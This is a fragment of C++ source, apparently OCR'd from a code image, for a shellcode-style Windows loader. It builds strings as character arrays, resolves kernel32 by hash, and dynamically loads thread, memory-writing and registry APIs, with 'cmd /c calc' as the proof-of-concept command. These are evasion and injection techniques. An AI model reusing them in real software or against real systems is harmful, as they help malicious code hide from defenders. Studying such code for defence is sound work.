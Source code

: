 ```cpp
#endif

    // Command to launch
    CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };


#ifdef USE_REGISTRY_FOR_DLL
    // Chunk values -- Pretty unelegant
    WCHAR chunkValue1[] = { 'S', 'C', '1', '\0' };
    WCHAR chunkValue2[] = { 'S', 'C', '2', '\0' };
    WCHAR chunkValue3[] = { 'S', 'C', '3', '\0' };
#else
    WCHAR savedDllAddress[] = { 'D', 'l', 'l', '\0' };
#endif

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };
    WCHAR rpcrt4dllName[] = { 'r', 'p', 'c', 'r', 't', '4', '.', 'd', 'l', 'l', '\0' };

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll;
    // Symbols to dynamically resolve from dll during runtime
    LoadLibraryType LoadLibraryFunc;
    OpenThreadType OpenThreadFunc;
    ResumeThreadType ResumeThreadFunc;
    ExitThreadType ExitThreadFunc;


#ifdef WPM
    WriteProcessMemoryType WriteProcessMemoryFunc;
#endif
    VirtualProtectType VirtualProtectFunc;
    FreeLibraryType FreeLibraryFunc;
    WaitForSingleObjectType WaitForSingleObjectFunc;

    RegGetValueType RegGetValueFunc;
    RegOpenKeyType RegOpenKeyFunc;
    RegDeleteKeyType RegDeleteKeyFunc;
    mallocType mallocFunc;
    memsetType memsetFunc;
    memcpyType memcpyFunc;
    freeType freeFunc;
#ifdef _DEBUG
    printfType printfFunc;
#endif
    SleepType SleepFunc;
    OpenMutexType OpenMutexFunc;
    CloseHandleType CloseHandleFunc;
    RegCloseKeyType RegCloseKeyFunc;
    WinExecType WinExecFunc;

    // kernel32.dll exports
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);

    OpenThreadFunc = (OpenThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenThreadName);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    ResumeThreadFunc = (ResumeThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ResumeThreadName);
#ifdef WPM
    WriteProcessMemoryFunc = (WriteProcessMemoryType)GetSymbolAddress(kernel32dll, (LPCSTR)WriteProcessMemoryName);
#endif
```